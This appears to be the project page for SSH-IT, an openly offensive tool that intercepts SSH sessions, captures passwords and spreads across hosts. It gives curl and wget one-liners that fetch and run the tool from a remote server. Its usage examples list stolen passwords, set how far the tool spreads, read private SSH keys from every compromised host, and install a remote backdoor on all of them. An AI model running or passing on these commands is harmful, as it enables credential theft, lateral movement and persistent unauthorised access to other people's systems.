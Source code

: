 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```shell
~/.config/prng/thc_cli -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```shell
~/.config/prng/thc_cli -r uninstall
```

### Environment variables:

Deployment can be controlled with these environment variables

|:---|:---|
|```THC_DEPTH=```|SSH-IT will spread to this depth and then stop. The default is ```THC_DEPTH=2```.|
|```THC_BASEDIR=```|Installation directory. Default is ```THC_BASEDIR="${HOME}/.config/prng"```.|
|```THC_VERBOSE=1```|For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red).|
|```THC_DEBUG=1```|For testing only: Display debug information|
|```THC_DEBUG_LOG=thc.log```|For testing only: Output (most) debug informatio to ```thc.log```.|

Example
```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Tips & Tricks
SSH-IT is controlled with ```thc_cli```.
```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

#### Remote Command Execution
Executing a command on _all_ hosts
```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (```id_rsa```) from _all_ hosts:
```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:
```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

#### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

#### Help the team
Help us fix bugs and send us ```thc.log``` if a boo-boo happens:
```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


